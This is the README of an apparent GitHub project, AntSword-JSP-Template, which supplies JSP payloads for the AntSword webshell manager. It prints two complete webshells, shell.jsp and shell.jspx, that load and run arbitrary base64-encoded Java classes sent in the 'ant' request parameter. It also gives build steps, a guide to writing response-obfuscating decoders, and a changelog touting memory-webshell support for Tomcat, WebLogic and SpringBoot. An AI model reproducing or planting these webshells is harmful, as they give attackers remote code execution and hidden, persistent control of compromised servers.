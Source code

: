 # AntSword-JSP-Template  v1.4
中国蚁剑JSP一句话Payload

详细介绍：https://yzddmr6.tk/posts/antsword-diy-3/

编译环境：jdk6 + tomcat7

适用范围：jdk6及以上

## 编译

### 手动编译

* Windows

```
javac.exe -cp "./lib/servlet-api.jar;./lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

* Linux/Mac

```bash
javac -cp "./lib/servlet-api.jar:./lib/jsp-api.jar" Test.java

# Linux
base64 -w 0 Test.class > Test.txt

# Mac
base64 -b 0 Test.class > Test.txt
```

### 自动编译

在build.py中替换你的javac路径后运行，即可在`./dist`目录下自动生成代码模板。

```
python build.py
```

编译完成后将`./dist/`目录下所有文件拷贝至`antSword-master/source/core/jsp/template/`下即可

## Shell
shell.jsp

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

shell.jspx
```
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2">
    <jsp:declaration>
        class U extends ClassLoader {
            U(ClassLoader c) {
                super(c);
            }
            public Class g(byte[] b) {
                return super.defineClass(b, 0, b.length);
            }
        }
        public byte[] base64Decode(String str) throws Exception {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
            } catch (Exception e) {
                Class clazz = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
            }
        }
    </jsp:declaration>
    <jsp:scriptlet>
        String cls = request.getParameter("ant");
        if (cls != null) {
            new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
        }
    </jsp:scriptlet>
</jsp:root>
```
其中`pageContext`可以替换为`request`，以实现对内存Webshell的兼容。

## 解码器

以 Reverse 解码器为例说明：

> 该解码器的功能是将返回包的数据反转

1. 编写 `AsoutputReverse.java` 内容如下:

```java
public class AsoutputReverse {
  String res;

  public AsoutputReverse(String str) {
    // 这里编写对 str 处理的逻辑, 最后将值传给 res
    res = new StringBuffer(str).reverse().toString();
  }

  // 请保持 toString 方法, 不要修改内容
  @Override
  public String toString() {
    return res;
  }
}
```

2. 编译，并获取 .class 文件 base64 后的内容

```
$ javac AsoutputReverse.java
$ base64 -w 0 AsoutputReverse.class
```

3. 打开 AntSword 进入编码设置，创建「解码器」，内容如下:

```
/**
 * JSP::reverse 解码器
 */

 'use strict';

 module.exports = {
   asoutput: () => {
     // 这里是你的 .class 文件的 base64 后的内容
     return `yv66vgAAADMAHgoACAATBwAUCgACABUKAAIAFgoAAgAXCQAHABgHA...`;
   },
   decode_buff: (data) => {
     // 这里是解返回包的逻辑
     return Buffer.from(data).reverse();
   }
 }
```


## 更新日志

### v 1.5-dev

1. 支持解码器(返回包加密)

### v 1.4

1. 兼容JDK6
2. 兼容weblogic内存webshell
3. 优化报错信息
4. 解决windows下中文乱码的问题（win选择GBK编码，linux选择UTF-8编码）
5. 实战中只能获取到response的情况几乎没有，所以为了减少payload体积不再支持response作为入口参数
6. 增加用于测试payload的Web项目
7. 修复 java -jar xxx.war 启动时当前目录获取失败的问题


### v 1.3

1. 兼容SpringBoot

### v 1.2

1. 修复下载文件的BUG
2. database添加Base64编码

### v 1.1

1. 增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release
